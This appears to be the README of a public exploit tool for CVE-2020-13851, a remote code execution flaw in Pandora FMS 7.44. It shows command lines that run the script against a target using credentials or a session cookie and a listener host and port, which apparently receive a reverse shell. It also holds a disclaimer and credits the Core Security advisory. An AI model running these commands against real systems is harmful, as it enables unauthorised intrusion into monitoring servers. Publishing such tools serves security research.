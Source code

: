 # Project Title

Pandora FMS 7.44 CVE-2020-13851 Remote Code Execution

## Description

Pandora FMS 7.44 CVE-2020-13851 RCE allows an authenticated user to achieve remote command execution via the events feature. Can be done with credentials or a PHP session cookie.

## Getting Started

### Executing program

* Using credentials
```
python3 pandorafms_7.44.py -t http://pwnedpandora.com/ -u username -p password -lhost 127.0.0.1 -lport 1337
```
* Using PHP session cookie
```
python3 pandorafms_7.44.py -t http://pwnedpandora.com/ -c PHPSESSID -lhost 127.0.0.1 -lport 1337
```

## Help

For Help Menu
```
python3 pandorafms_7.44.py -h
```

## Acknowledgments

* [Core Security](https://www.coresecurity.com/core-labs/advisories/pandora-fms-community-multiple-vulnerabilities)

## Disclaimer
All the code provided on this repository is for educational/research purposes only. Any actions and/or activities related to the material contained within this repository is solely your responsibility. The misuse of the code in this repository can result in criminal charges brought against the persons in question. Author will not be held responsible in the event any criminal charges be brought against any individuals misusing the code in this repository to break the law.